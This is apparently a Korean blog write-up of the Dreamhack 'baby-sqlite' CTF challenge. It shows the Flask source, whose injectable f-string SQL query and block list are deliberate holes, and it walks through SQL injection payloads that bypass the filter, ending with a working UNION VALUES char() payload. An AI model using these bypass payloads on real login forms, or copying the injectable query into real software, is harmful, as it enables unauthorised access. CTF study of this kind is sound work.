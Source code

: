 ```yaml
---
layout: single
title: "[Dreamhack] baby-sqlite write-up"
date: 2025-01-11 17:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] baby-sqlite

### 😊 문제 설명

- 로그인 서비스입니다.
- SQL INJECTION 취약점을 통해 플래그를 획득하세요!

<br>

### ✏️ 풀이

문제 사이트에 접속해보면 아래와 같은 로그인 폼이 존재하는 것을 볼 수 있다.

<img src="/images/2025-01-11-baby-sqlite/{778B5FD1-E3CA-44A7-996A-6E34FB41AE31}.png" alt="{778B5FD1-E3CA-44A7-996A-6E34FB41AE31}" style="zoom:50%;" />

<img src="/images/2025-01-11-baby-sqlite/{376A12FB-84A5-4CF5-80A6-8211CB863F0B}.png" alt="{376A12FB-84A5-4CF5-80A6-8211CB863F0B}" style="zoom: 50%;" />

<br>

#### 소스코드

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
    top = _app_ctx_stack.top
    if not hasattr(top, 'sqlite_db'):
        top.sqlite_db = sqlite3.connect(DATABASE)
    return top.sqlite_db


try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'

    
    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
    top = _app_ctx_stack.top
    if hasattr(top, 'sqlite_db'):
        top.sqlite_db.close()


if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)

```

<br>

로그인 경로의 소스 코드를 보면 `uid`, `upw`, `level`이라는 값을 소문자로 전부 변환하고, level은 값이 없다면 9로 설정해주고 있다. `sqli_filter` 에 걸리면 No Hack! 문자열을 return하고 이 값들은 `SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};` 이 쿼리에 들어가서 uid가 admin이면 FLAG를 반환한다고 되어있다. 

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'

    
    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'
```

<br>

보면 아래 메인 코드에서 dream, cometrue, 9로 uid, upw, level을 INSERT한 것을 볼 수 있다.

```python
if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)
```

<br>

먼저 burp로 해당 로그인 패킷을 잡아주고, FLAG의 조건은 `uid`가 admin이어야 하면서 아래의 filter를 우회해야 한다.

```python
sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
```

![{63233C88-0743-408E-A87C-CFA49853F3AA}](/images/2025-01-11-baby-sqlite/{63233C88-0743-408E-A87C-CFA49853F3AA}.png)

<br>
일단 처음에 시도해볼 건 admin이라는 키워드와 공백이 필터링되고 있고, 싱글쿼터는 필터링되지 않고있기 때문에 admin을 like 같은 걸 사용하면 되지 않을까??

<br>

아래처럼 만들었고, 이제 공백을 우회해야 한다. 

```sql
SELECT uid FROM users WHERE uid='' or uid like 'admi%'-- and upw='{upw}' and level={level};
```

<br>
공백은 /**/ 주석으로 한 번 시도해보자.

```sql
SELECT uid FROM users WHERE uid=''/**/or/**/uid/**/like/**/'admi%'-- and upw='{upw}' and level={level};
```

<br>

그럼 최종적으로 uid에 아래와 같은 값을 넣어 테스트해보니 싱글쿼터가 필터링되고 있는 걸 잘못봤다..

```text
'/**/or/**/uid/**/like/**/'admi%'--
```

![**{5D323203-2539-4374-8DBD-DA1E1E05C5E1}**](/images/2025-01-11-baby-sqlite/{5D323203-2539-4374-8DBD-DA1E1E05C5E1}.png)

<br>

그럼 싱글쿼터와 더블쿼터 둘 다 필터링이 되고 있고, 이를 우회하기 위해선 `\` 문자를 사용해서 uid 뒤에있는 싱글쿼터를 문자 형태로 만들어주면 `' and upw=` 까지가 uid 조건으로 들어가서 뒤에 있는 upw 값에 sqli를 넣어볼 수 있다.

```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
```

```sql
SELECT uid FROM users WHERE uid='\' and upw='    {upw}' and level={level};
```

<br>

그래서 아래처럼 만들어서 공백은 주석으로, admin 을 16진수 숫자로 바꿔서 테스트해봤는데 안된다.

```sql
SELECT uid FROM users WHERE uid='\' and upw='/**/or/**/uid/**/=/**/0x61646d696e#
```

![{807912D6-BCFC-4526-A8BE-978AEFA77B95}](/images/2025-01-11-baby-sqlite/{807912D6-BCFC-4526-A8BE-978AEFA77B95}.png)

<br>

다른 방법으로 union을 사용해보면 먼저 select가 필터링되어 있기 때문에 values를 사용할 수 있다. 따라서 admin을 16진수로 바꿔 `char`과 `||` 를 사용해서 level에 넣어주면 flag를 확인할 수 있다. 

```sql
9/**/union/**/values(char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e))
```

![{410D9FD2-BD87-46A4-9ADF-21221D8EC341}](/images/2025-01-11-baby-sqlite/{410D9FD2-BD87-46A4-9ADF-21221D8EC341}.png)

<br>